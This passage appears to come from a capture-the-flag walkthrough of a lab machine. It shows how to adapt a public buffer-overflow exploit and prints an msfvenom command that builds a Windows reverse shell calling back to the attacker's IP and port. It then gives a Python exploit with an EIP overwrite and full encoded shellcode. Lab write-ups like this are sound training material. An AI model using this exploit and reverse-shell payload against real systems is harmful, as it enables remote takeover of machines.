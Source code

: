 I'm going to use the exploit from [https://www.exploit-db.com/exploits/48389](https://www.exploit-db.com/exploits/48389) which requires some modifications such as changing the shellcode in order to match with our listening port and ip.

### Exploiting the vulnerable software

Using ``searchsploit -m`` we can again copy the exploit to a more flexible path :

![bof](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/buff-writeup/bof.png)


### Generating the shellcode

To generate the shellcode I can use **msfvenom** with the following options: 
```sh
root@kali:~# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.127 LPORT=9002 EXITFUNC=thread -b "\x00\x0d\x0a" -f python
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of python file: 1712 bytes
buf =  b""
buf += b"\xbb\xc4\x1c\x1b\x3a\xda\xda\xd9\x74\x24\xf4\x5a\x29"
[...]
```

Lastly, Im going to replace the shellcode in the exploit with the one I just generated. 

The final exploit code should look something like this :

```python
import socket

target = "127.0.0.1"

padding1   = b"\x90" * 1052
EIP        = b"\xB5\x42\xA8\x68" # 0x68A842B5 -> PUSH ESP, RET
NOPS       = b"\x90" * 30

payload  = b""
payload += b"\xbb\xc4\x1c\x1b\x3a\xda\xda\xd9\x74\x24\xf4\x5a\x29"
payload += b"\xc9\xb1\x52\x31\x5a\x12\x83\xea\xfc\x03\x9e\x12\xf9"
payload += b"\xcf\xe2\xc3\x7f\x2f\x1a\x14\xe0\xb9\xff\x25\x20\xdd"
payload += b"\x74\x15\x90\x95\xd8\x9a\x5b\xfb\xc8\x29\x29\xd4\xff"
payload += b"\x9a\x84\x02\xce\x1b\xb4\x77\x51\x98\xc7\xab\xb1\xa1"
payload += b"\x07\xbe\xb0\xe6\x7a\x33\xe0\xbf\xf1\xe6\x14\xcb\x4c"
payload += b"\x3b\x9f\x87\x41\x3b\x7c\x5f\x63\x6a\xd3\xeb\x3a\xac"
payload += b"\xd2\x38\x37\xe5\xcc\x5d\x72\xbf\x67\x95\x08\x3e\xa1"
payload += b"\xe7\xf1\xed\x8c\xc7\x03\xef\xc9\xe0\xfb\x9a\x23\x13"
payload += b"\x81\x9c\xf0\x69\x5d\x28\xe2\xca\x16\x8a\xce\xeb\xfb"
payload += b"\x4d\x85\xe0\xb0\x1a\xc1\xe4\x47\xce\x7a\x10\xc3\xf1"
payload += b"\xac\x90\x97\xd5\x68\xf8\x4c\x77\x29\xa4\x23\x88\x29"
payload += b"\x07\x9b\x2c\x22\xaa\xc8\x5c\x69\xa3\x3d\x6d\x91\x33"
payload += b"\x2a\xe6\xe2\x01\xf5\x5c\x6c\x2a\x7e\x7b\x6b\x4d\x55"
payload += b"\x3b\xe3\xb0\x56\x3c\x2a\x77\x02\x6c\x44\x5e\x2b\xe7"
payload += b"\x94\x5f\xfe\xa8\xc4\xcf\x51\x09\xb4\xaf\x01\xe1\xde"
payload += b"\x3f\x7d\x11\xe1\x95\x16\xb8\x18\x7e\x13\x37\x2c\x01"
payload += b"\x4b\x45\x30\xde\xa1\xc0\xd6\x4a\xa6\x84\x41\xe3\x5f"
payload += b"\x8d\x19\x92\xa0\x1b\x64\x94\x2b\xa8\x99\x5b\xdc\xc5"
payload += b"\x89\x0c\x2c\x90\xf3\x9b\x33\x0e\x9b\x40\xa1\xd5\x5b"
payload += b"\x0e\xda\x41\x0c\x47\x2c\x98\xd8\x75\x17\x32\xfe\x87"
payload += b"\xc1\x7d\xba\x53\x32\x83\x43\x11\x0e\xa7\x53\xef\x8f"
```